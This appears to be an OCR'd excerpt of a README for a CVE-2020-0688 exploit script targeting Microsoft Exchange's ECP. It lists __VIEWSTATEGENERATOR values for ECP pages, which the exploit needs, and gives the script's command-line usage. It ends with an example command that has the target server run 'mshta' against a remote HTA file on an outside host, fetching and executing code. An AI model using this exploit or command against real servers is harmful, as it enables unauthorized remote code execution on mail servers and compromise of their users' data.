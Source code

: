 ```
__VIEWSTATEGENERATOR=4AD51055

/ecp/Customize/SentItems.aspx?showhelp=false&

__VIEWSTATEGENERATOR=4466B13F

/ecp/PersonalSettings/Password.aspx?showhelp=false&

__VIEWSTATEGENERATOR=59543DCA

/ecp/SMS/TextMessaging.slab?showhelp=false&

__VIEWSTATEGENERATOR=FD338EE0

/ecp/TroubleShooting/MobileDevices.slab?showhelp=false&

__VIEWSTATEGENERATOR=FD338EE0

/ecp/Customize/Regional.aspx?showhelp=false&

__VIEWSTATEGENERATOR=9097CD08

/ecp/MyGroups/SearchAllGroups.slab?pwmcid=3&ReturnObjectType=1

__VIEWSTATEGENERATOR=FD338EE0 `/ecp/Security/BlockOrAllow.aspx?showhelp=false&

__VIEWSTATEGENERATOR=362253EF` 
```

# 全自动（支持加密）

```
CVE-2020-0688_EXP Auto trigger payload

python3 CVE-2020-0688_EXP.py -h

usage: CVE-2020-0688_EXP.py [-h] -s SERVER -u USER -p PASSWORD -c CMD [-e]

optional arguments:

-h, --help            show this help message and exit

-s SERVER, --server ECP Server URL Example: [http://ip/owa](http://ip/owa)

-u USER, --user USER  login account Example: domain\user

-p PASSWORD, --password PASSWORD

-c CMD, --cmd CMD     Command u want to execute

-e, --encrypt         Encrypt the payload

example: `python CVE-2020-0688_EXP.py -s [https://mail.x.com/](https://mail.x.com/) -u [user@x.com](mailto:user@x.com) -p passwd -c “mshta [http://1.1.1.1/test.hta](http://1.1.1.1/test.hta)”` 
```
